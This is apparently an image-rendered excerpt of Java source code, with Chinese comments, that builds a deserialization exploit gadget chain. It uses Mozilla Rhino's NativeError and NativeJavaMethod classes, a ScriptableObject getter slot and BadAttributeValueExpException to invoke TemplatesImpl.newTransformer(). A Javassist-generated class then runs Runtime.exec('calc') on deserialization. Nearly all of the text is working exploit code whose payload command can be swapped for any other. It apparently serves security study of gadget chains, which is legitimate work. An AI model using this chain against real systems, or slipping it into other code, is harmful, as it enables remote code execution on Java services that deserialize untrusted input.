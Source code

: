 ```plain

        //使getPrototype()返回的是NativeJavaObject对象
        Field prototypeObject= ScriptableObject.class.getDeclaredField("prototypeObject");
        prototypeObject.setAccessible(true);
        prototypeObject.set(NativeError,nativeJavaObject);

        //赋值NativeJavaMethod中的methods数组,使Memberbox中的method是newTransformer()
        Method templatesMethod=TemplatesImpl.class.getDeclaredMethod("newTransformer");
        templatesMethod.setAccessible(true);
        NativeJavaMethod nativeJavaMethod=new NativeJavaMethod(templatesMethod,"test");


        //实例化一个Slot对象,并放入NativeError中，比较难理解
        Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
        getSlot.setAccessible(true);
        Object slotObject = getSlot.invoke(NativeError, "name", 0, 4);

        //使getter获取到的getterObj是nativeJavaMethod,触发Function中的call()
        Class<?> GetterObj=Class.forName("org.mozilla.javascript.ScriptableObject$GetterSlot");
        Field getter=GetterObj.getDeclaredField("getter");
        getter.setAccessible(true);
        getter.set(slotObject,nativeJavaMethod);


        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("test");
        Field  valField  = badAttributeValueExpException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(badAttributeValueExpException, NativeError);
        String result=serialize(badAttributeValueExpException);
        unserialize(result);


    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result= Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
```